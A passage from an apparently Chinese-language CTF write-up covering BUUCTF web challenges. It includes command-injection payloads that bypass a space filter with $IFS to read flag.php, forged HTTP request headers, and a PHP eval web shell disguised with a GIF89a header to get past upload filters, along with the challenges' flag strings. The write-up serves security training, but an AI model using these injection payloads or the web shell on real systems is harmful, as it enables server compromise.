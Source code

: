 注意`group_concat()`是个函数，憋手欠加空格

flag{e210152f-fc19-4139-9d2a-dcbb6c4c6268}

{{% /spoiler %}}

{{% spoiler "[GXYCTF2019]Ping Ping Ping  |  rce 空格绕过" %}}

```
127.0.0.1;ls	# index.php, flag.php
127.0.0.1;cat flag.php	# fxck your space!
127.0.0.1;cat$IFSindex.php	# 空内容
127.0.0.1;cat$IFSflag.php	# fxck your flag!
127.0.0.1;cat$IFS$7`ls`		# 页面源码得到flag
127.0.0.1;a=g;cat$IFS$7fla$a.php	# 页面源码得到flag
```

flag{281616ef-7318-42b6-adaf-825edf76ff26}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]Knife" %}}

白给shell，连蚁剑

flag{95a76aa0-58b5-4494-bb49-7f11ce00774d}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]Http  |  请求头" %}}

页面源码提示/Secret.php，跟着提示一直修改请求头

```
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
```

flag{614f3098-1c0f-480b-97f7-9caa49025e83}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]Upload  |  upload" %}}

过滤了几个常规的php后缀，用.php7绕过，同时抓包修改MIME为image/png

之后发现它会检测上传内容有没有`<?`，用gif+phtml样式的🐎

pure.phtml

```
GIF89a
<script language='php'>eval($_POST['amiz']);</script>
```

连蚁剑

flag{23be575a-679e-4f7c-b75b-6e033d10bfca}

{{% /spoiler %}}

{{% spoiler "[ACTF2020 新生赛]Upload  |  upload" %}}
